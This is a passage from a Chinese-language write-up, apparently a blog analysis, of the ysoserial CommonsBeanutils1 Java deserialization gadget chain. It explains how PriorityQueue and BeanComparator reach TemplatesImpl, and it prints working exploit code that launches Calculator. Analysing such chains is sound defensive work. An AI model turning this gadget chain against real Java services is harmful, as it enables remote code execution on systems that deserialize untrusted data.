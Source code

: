 这样我们就可以将BeanComparator的compare函数作为桥梁用来连接命令执行链和其他的函数，目前的利用链状态为

[![](https://p3.ssl.qhimg.com/t012dbb6aa1b363e6f5.png)](https://p3.ssl.qhimg.com/t012dbb6aa1b363e6f5.png)

结合之前分析的CC2链，很容易想到用PriorityQueue类调用继承了Comparator接口的BeanComparator方法。

### <a class="reference-link" name="0x4%20%E5%88%9B%E9%80%A0%E6%9D%A1%E4%BB%B6%E8%B0%83%E7%94%A8compare%E6%96%B9%E6%B3%95"></a>0x4 创造条件调用compare方法

PriorityQueue中的readObject会调用heapify函数进行元素排序，之后会触发comparator.compare方法，完美的闭合整个利用链。

[![](https://p0.ssl.qhimg.com/t0157f9f5ce25b64aa2.png)](https://p0.ssl.qhimg.com/t0157f9f5ce25b64aa2.png)

[![](https://p2.ssl.qhimg.com/t01d55914f5a014337e.png)](https://p2.ssl.qhimg.com/t01d55914f5a014337e.png)

### <a class="reference-link" name="0x5%20%E7%BC%96%E5%86%99%E5%88%A9%E7%94%A8%E4%BB%A3%E7%A0%81"></a>0x5 编写利用代码

代码放在了github上[https://github.com/BabyTeam1024/ysoserial_analyse/blob/main/CButils1.java](https://github.com/BabyTeam1024/ysoserial_analyse/blob/main/CButils1.java)，主代码如下

```
final Object templates = createTemplatesImpl("/System/Applications/Calculator.app/Contents/MacOS/Calculator");
// mock method name until armed

// create queue with numbers and basic comparator
final BeanComparator comparator = new BeanComparator("lowestSetBit");

final PriorityQueue&lt;Object&gt; queue = new PriorityQueue&lt;Object&gt;(2,comparator);
// stub data for replacement later
queue.add(new BigInteger("1"));
queue.add(new BigInteger("1"));

// switch method called by comparator
setFieldValue(comparator, "property", "outputProperties");

// switch contents of queue
final Object[] queueArray = (Object[]) getFieldValue(queue, "queue");
queueArray[0] = templates;
queueArray[1] = templates;

//        return queue;
byte[] serializeData=serialize(queue);
unserialize(serializeData);
```

有几个点需要注意下
- 一开始将BeanComparator的property设置为lowestSetBit，以及向queue队列中填充BigInteger对象，都是为了在执行add函数时不触发构造好的利用链，以防程序中断。
- add之后将comparator的property属性调整为outputProperties，以及queue元素调整为templates因为需要在序列化数据时把恶意数据带进去。
